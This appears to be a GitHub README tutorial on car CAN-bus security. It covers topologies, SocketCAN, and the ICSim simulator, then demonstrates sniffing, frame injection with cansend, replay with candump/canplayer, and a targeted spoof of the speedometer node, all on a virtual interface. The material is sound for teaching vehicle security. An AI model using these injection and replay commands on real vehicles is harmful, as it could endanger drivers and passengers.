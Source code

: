 # Automotive-Security
On the New era of self driving technology automotive security has become one of the most interesting field for Security researchers. In this mordern world when you drive a car, you are driving a very powerfull computer that happens to have wheels and steering. Today there is no such component in a car that is not being moderated by a Computer. Hence the Risk of Being Exploited also increses.

## Overview

- [Network Topology](#network-topology)
- [Can-Bus](#can-bus)
  - it's Other Varients 
- [SocketCan](#socketcan)
  - Kayak
- [ICSim](#icsim)
- [Hacking CAN-Bus](#hacking-can-bus)
  - Sniffer
  - CAN Sender 
  - Replay Attack
  - Targeted Node Attack
  
## Network Topology
- Vehicles nowadays have dedicated ECU for working of each of Components such as Tire Pressure Monitor Systems, Temprature and Infortainment Control, Shaders Controls, Instrument Clusters etc. The Major Network Topologies used in CAN Networks are:
  - Bus Topology
  <img src = "https://user-images.githubusercontent.com/100958162/221414549-41b24b76-31d8-41f8-b46b-cc07ad614091.png" width ="50%">
  
  - Ring Topology
  <img src = "https://user-images.githubusercontent.com/100958162/221414835-44a2237b-cd2a-4b77-8451-e7cdb0baa36e.png" width = "50%" height = "200" >

  - Star Topology
  <img src="https://user-images.githubusercontent.com/100958162/221414844-5f38e79e-910f-4bf4-9f74-00f41b093edd.png" width="50%" height ="50%">
  
  **However the Network paradigm used inside most of the Vehicles nowadays is CAN-Bus Topology**
  <img src ="https://user-images.githubusercontent.com/100958162/221415320-84b8877a-e154-46d2-a09f-0cde3f7dce1c.png" width ="60%" height="300">
  
## CAN-Bus
Controlled Area Network or CAN Network is like the Nervous system of a car responsible for it's entire working and intervehicular communication. Since CAN-Bus follows bus topology each nodes are interconnected to a single bus line making it possible in a two way communication between any two nodes at a time.A node brodcastes a CAN signal to all the other node, the corresponding node with the matching destination adress captures the data. 
A Serial CAN Communication 

<img src="https://user-images.githubusercontent.com/100958162/221421092-2629f478-e5b4-4e2f-ba47-4dfae6ec2f36.png" width="50%" height="300">
- Can Networks can be interfaced using OBD ports, Usually they are present below the steering column or hidden somewhere in the dash.
- There are mainly two types of CAN Data 
  - Standard CAN PAckets 
  - Extended CAN Packets

#### Apart from CAN there are also other Protocols that are made by diffrent Brands are used for handiling diffrent technical situations inside the Car
- ISO-TP Protocol
  - Used to send CAN data Packets Exceeding 8byte of the Standard CAN protocol
- CanOpen Protocol
  - Changed the 11byte arbiary Id to a combination of 4bit function cod and 7bit Node ID, therefore csn be used for Precise Data Transfer
- The GMLAN Bus 
  - Uses Single Wire Low Speed and Double Wire High Speed Bus
- The SAEJ1850 Protocol
  - Old and Slower than Can But Easy to Imlement 
- The Keyword Protocol
  - Communicates through KWP2000 line(pin 7), the data may contain upto 255 byte
- The Local InterConnect Network Protocol
  - Faster than Can since it doesn't contain any Identifier ID, a single master Controls all the Slave Nodes
- The MOst Protocol
  - Media Oriented System Transport designed for multimedia devices, usually used to acces any internal mic or output Displays in a IVT Console or any hardware components that has a media console
- The Flex Ray Bus
  - High Speed Data Transfer Upto 10Mbps, Uses twisted wires to communicate, but can also used dual-channel communication.
- Automotive Ethernet

## SocketCan 
SocketCan is a Linux Utility that combines/unifies all the CAN tools and it's diffrent interfaces to a uniques interface. It Can also be used to create tools for supporting CAN, that enables us to try diffrent Options on the Persisting Can Networks. SocketCan ties user to the Linux Netwroking Kernal making it possible for creating a sperate interface for unifying all the CAN Networks.
A detailed writeup on Installing and Configuring SocketCan is given on it's Official [Github](https://github.com/linux-can/socketcand)

### Kayak 
- [Kayak](http://kayak.2codeornot2code.org/) is a Java based GUI Tool Used for Monitoring and Diagnosing CAN Data using SocketCan Interfaces. Kayak links with Open Maps for mapping and can handle CAN defenitions. Since it is Java Based app it can run on any platform. Kayak Latest [Realese](https://github.com/dschanoeh/Kayak/releases/tag/untagged-3597039ad20ce9798a99) 

## ICSim
To practice CAN-Bus exploitation we will be using an ICSim package from Craig Smith. ICSim includes a dashboard with speedometer, door lock
indicators, turn signal indicators and a control panel. The control panel allows the user to interact with the simulated automobile network, applying
acceleration, brakes, controlling the door locks and turn signals.
### Installing ICSim

You will need:
* SDL2
* SDL2_Image
* can-utils

You can get can-utils from github or on Ubuntu you may run the follwoing

```
  sudo apt-get install libsdl2-dev libsdl2-image-dev can-utils  
```

You can run the following commands to setup a virtual can interface

```
  sudo modprobe can
  sudo modprobe vcan
  sudo ip link add dev vcan0 type vcan
  sudo ip link set up vcan0
```

If you type ifconfig vcan0 you should see a vcan0 interface. A setup_vcan.sh file has also been provided with this
repo.

**Usage**

Default operations:

Start the Instrument Cluster (IC) simulator:

```
  ./icsim vcan0
```

Then startup the controls

```
  ./controls vcan0
```
<table align="center">
<tr>
<td><img src="https://user-images.githubusercontent.com/100958162/221443075-da04eb22-d9a1-48c4-b414-d71bff62f33a.png" width ="100%" height="80%"></td>
<td><img src="https://user-images.githubusercontent.com/100958162/221443109-0245da80-a0f4-47a2-b0fc-8660d29b5fb3.png" width="50%" height="50%"></td>
</tr>
</table>

## Hacking CAN-Bus
- As previously stated, the CAN-Bus communication protocol utilizes a broadcasting mechanism to share data packets, allowing each node within the network to transmit messages to one another. In order to achieve this, a message is broadcasted to the entire server by one of the nodes, and the source node captures it while all other nodes disregard it.
- By exploiting this feature, an attacker within the network can potentially send data to any other node, creating a vulnerability that could lead to a fault injection attack. 

### Sniffing CAN Data
- Setup the Virtual CAN network by running the setup_vcan.sh file in ICSim
```sh
./setup_vcan.sh
```
- Initialise the Controller and the Vrtual Instrument Cluster and Try to Send Data using the Controller 
```sh
./icsim vcan0
./controller vcan0
```
- Sniffing the Data using cansniffer 
```cansniffer vcan0````
``` cansniffer -c vcan0```
- You can use the -c argument to shoe the changing bits in the data in a diffrent color
 
 The Sniffed Can Data Should Look like this:-
 ```sh
 81|ms | ID  | data ...     < vcan0 # l=20 h=100 t=500 slots=36 >
00015 | 039 | 00 2A                   .*
00009 | 095 | 80 00 07 F8 00 00 00 31 .......1
00009 | 133 | 00 00 00 00 98          .....
00009 | 136 | 00 02 00 00 00 00 00 1B ........
00009 | 13A | 00 00 00 00 00 00 00 0A ........
00009 | 13F | 00 00 00 05 00 00 00 00 ........
00009 | 143 | 6B 6B 00 C2             kk..
00009 | 158 | 00 00 00 00 00 00 00 0A ........
00009 | 161 | 00 00 05 50 01 08 00 0D ...P....
00009 | 164 | 00 00 C0 1A A8 00 00 22 ......."
00009 | 166 | D0 32 00 09             .2..
00009 | 17C | 00 00 00 00 10 00 00 03 ........
00008 | 183 | 00 00 00 0D 00 00 10 0E ........
00501 | 188 | 00 00 00 00             ....
00009 | 18E | 00 00 4D                ..M
00009 | 191 | 01 00 10 A1 41 00 38    ....A.8
00020 | 1A4 | 00 00 00 08 00 00 00 2F ......./
00019 | 1AA | 7F FF 00 00 00 00 68 2F ......h/
00019 | 1B0 | 00 0F 00 00 00 01 66    ......f
00020 | 1CF | 80 05 00 00 00 0F       ......
00020 | 1DC | 02 00 00 0C             ....
00040 | 21E | 03 E8 37 45 22 06 2F    ..7E"./
00015 | 244 | 00 00 00 01 6A          ....j
00039 | 294 | 04 0B 00 02 CF 5A 00 2C .....Z.,
00106 | 305 | 80 35                   .5
00100 | 309 | 00 00 00 00 00 00 00 B1 ........
00099 | 320 | 00 00 21                ..!
00099 | 324 | 74 65 00 00 00 00 0E 29 te.....)
00099 | 333 | 00 00 00 00 00 00 2D    ......-
00099 | 37C | FD 00 FD 00 09 7F 00 29 .......)
00300 | 405 | 00 00 04 00 00 00 00 1A ........
00300 | 40C | 03 31 33 38 34 39 00 0D .13849..
00300 | 428 | 01 04 00 00 52 1C 10    ....R..
00300 | 454 | 23 EF 09                #..
01260 | 5A1 | 96 00 00 00 00 00 62 10 ......b.
```
- Analysing the CAN Data Packet 

``` 188#000000``` 
- The above metnioned packet is used fo controlling the blinkers in the CAR, the arbitary ID of the packet is 188 denoting it stands for blinkers, the data is of 8 bit ```00 00 00 00```
- Now if the first byte in the data changes to **02** it denotes that the Left Blinker is turned On and if the first byte is 01 it denotes the left blinker is turned on.
- Any attakcer can get in the CAN-network using many attacking Vactors like OBD-II port or by attacing their IVT etc.

## Sending CAN Data/ Replay Attacks 
- CAN-utils provide an tool names cansend inorder to send CAN packets to the network 
- Below command send a data packets that turns on left Blinker
```sh
cansend vcan0 188#02000000
```
- This opens an lot of possible ways to attack the CAR after getting into the it's Network

## Replay Attack

Canplayer is a tool that is commonly used alongside CAN communication, enabling the transmission of various CAN packets to a single or multiple CAN ports. However, this functionality also introduces the possibility of a replay attack, in which an attacker captures and subsequently retransmits a previously recorded CAN packet in order to cause malicious behavior within the network. 
- Usage canplayer -I <infile> <interface_name>
```sh 
canplayer -I <infile> <interface_nmae>
```
- Infile Can be generated using ```candump``` command
```sh
candump -l vcan0
```
This Logs the data into a file. Which can be Later Replayed Using Canplayer
```sh
canplayer -I candump-2023-02-27_211403.log 
```
## Targeted Node attack
- In this attack we target a single node to be exploted.
- On Ananlysing the Data having the arbitary ID of the Target we identify the specific byte in Data which when changed alters the working of the Sensors or correspoding activity in the Car.
- On the Example below we are targeting the NODE that controls the Speed and RPM of the Cluster
  - The ID of the Dat is 244 and the last 3 bytes of data controls the actual speed in hex format.
  - I created a [script](https://github.com/Drupad-DeV/Automotive-Security/blob/main/speed.sh) that automates this whole process. 
  
Here is the Demo of the script being executed.

![github](https://user-images.githubusercontent.com/100958162/221551446-13dafbc0-f9cd-4f91-8909-fe7e0a8fe384.gif)
